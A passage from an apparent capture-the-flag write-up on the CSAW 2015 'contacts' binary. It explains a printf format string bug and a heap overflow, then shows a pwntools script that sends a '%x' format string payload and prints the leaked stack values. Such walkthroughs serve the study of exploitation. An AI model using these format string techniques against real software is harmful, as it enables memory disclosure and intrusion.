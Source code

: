 As we can see here it is using printf to print the description without formatting it. We control what the description is when we create or edit a contact. This is a classic format string exploit. Now it's just a matter of what we can do with these two exploits. First let's see what we can view with the format string exploit, and reach with the heap overflow using this python code:

```
#Import pwntools
from pwn import *

#Establish the process
target = process("./contacts_54f3188f64e548565bc1b87d7aa07427")

#Create the contact with the fmt string exploit as the description
target.recvuntil(">>>")
target.sendline("1")
target.sendline("guy")
target.sendline("0123456789")
target.sendline("50")
target.sendline("%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x")
print target.recvuntil(">>>")

#Print the description
target.sendline("4")
print target.recvuntil(">>>")

#Drop to an interactive shell and hand the process over to gdb
gdb.attach(target)
target.interactive()
```

when we run it:
```
$	python fmt_recon.py 
[+] Starting local process './contacts_54f3188f64e548565bc1b87d7aa07427': pid 11500
 Contact info: 
    Name: [DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
    Enter Phone No:     Length of description:     Enter description:
        Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>>
 Contacts:
    Name: guy
    Length 50
    Phone #: 0123456789
    Description: 8da4010.f763d3cb.0.1.f7793000.ffe9a188.8048c99.804b0a8.32
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>>
[*] running in new terminal: /usr/bin/gdb -q  "/Hackery/legacy/ctf/15csaw/contact/contacts_54f3188f64e548565bc1b87d7aa07427" 11500
[+] Waiting for debugger: Done
[*] Switching to interactive mode
```
